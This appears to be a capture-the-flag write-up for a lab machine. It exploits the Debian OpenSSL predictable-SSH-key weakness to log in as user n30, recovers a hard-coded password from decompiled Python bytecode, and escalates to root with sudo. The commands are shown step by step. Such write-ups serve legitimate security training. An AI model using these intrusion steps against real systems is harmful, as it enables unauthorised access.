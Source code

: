 > Virutal host, ssh

# Ports

* **80, 443** : Default apache setup page
* **22** : SSH
### Port 80, 22 are used for exploiting

# 80
1. Gobuster gave pages /uploads, /upload.php, /blog. Didn't find anything useful
2. Nmap scan of the target gave infomation about a `weakness.jt` in the ssl info
3. Added `weakness.jt` to /etc/hosts.
4. `weakness.jt` page contains an ascii rabbit with n30 written below. Possibly a user name `n30` in the system.
5. Gobuster of weakness.jt gave /private
6. /private page contains an ssh public key along with a note that openssh 0.9.8c was used to create the key 

# EXPLOITATION

Openssl 0.9.8c contains a vulnerability that causes it to produce only 65536 types of sshkeys. [exploitdb page](https://www.exploit-db.com/exploits/5622)

We can use a list of private-public keys to determine the private key for the given public key. List is obtained from [this github repo.](https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/5622.tar.bz2 (debian_ssh_rsa_2048_x86.tar.bz2))

## grep
1. `grep -l -r "AAAAB3NzaC1yc2EAAAABIwAAAQEApC39uhie9gZahjiiMo+k8DOqKLujcZMN1bESzSLT8H5jRGj8n1FFqjJw27Nu5JYTI73Szhg/uoeMOfECHNzGj7GtoMqwh38clgVjQ7Qzb47" .`
"Checking a part of the public key inside the folder of the github download"

2. `./4161de56829de2fe64b9055711f531c1-2537.pub` is the result. Here `4161de56829de2fe64b9055711f531c1-2537` is the private key. We can use this to login without needing a password.

3. ssh private key file needs to have permissions set 600 or rw-------. So we set `chmod 600 ./4161de56829de2fe64b9055711f531c1-2537.pub`

Finally `ssh -i 4161de56829de2fe64b9055711f531c1-2537 -l n30`  n30 from the rabbit ascii


# Actions in the low privilege shell
1. `ls -la`
Shows a binary named `code` in the home folder of n30.
2. `file code`
Gives the file type as python byte code
3. `python code` runs the binary and gives a hash for the user. Which is unique for each run.
4. So we send it to our attacking machine to decompile it. 
5. In our machine we rename the file to code.pyc since the decompiler shows error otherwise
`uncompyle6 code.pyc`
6. The python code shows `username:password currenttime` used to create a sha256 hash in that format. So we get the password from the code as `dMASDNB!!#B!#!#33` 
7. We run `sudo -l` and enter the password to find that this user can do all actions as sudo
8. So we `sudo bash` to switch to the root .
9. `whoami` returns root
